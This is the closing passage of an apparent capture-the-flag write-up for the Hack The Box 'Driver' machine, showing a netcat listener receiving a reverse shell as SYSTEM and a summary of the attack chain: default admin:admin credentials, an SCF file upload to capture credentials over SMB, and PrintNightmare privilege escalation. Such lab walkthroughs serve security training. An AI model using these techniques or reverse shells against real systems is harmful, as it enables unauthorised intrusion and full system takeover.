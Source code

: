 ```
┌──(kali㉿kali)-[~/Documents/ctf/htb/driver]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.17] from (UNKNOWN) [10.10.11.106] 49433
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami 
nt authority\system

C:\Windows\system32>
```

We successfully obtained a shell as the system `administrator`.

# CONCLUSION

In conclusion, our exploration revealed several open ports on the target system, including ports `80`, `135`, `445`, and `5985`. 

While port `135` hosted `RPC` and port `445` was for `SMB`, both required valid credentials for access. 

Fortunately, the web service on port `80` accepted default credentials (`admin:admin`), granting us access. Through the web interface, we discovered an opportunity to upload firmware updates, which were stored in `SMB`. We leveraged this to execute an `SCF` file upload attack, obtaining user credentials and ultimately gaining a shell.

Moreover, exploiting the notorious `PrintNightmare` vulnerability allowed us to escalate our privileges to `administrator` level, marking a successful completion of the challenge.

Thank you for accompanying this far, and looking forward to sharing more exploitations in the next one. Until next time!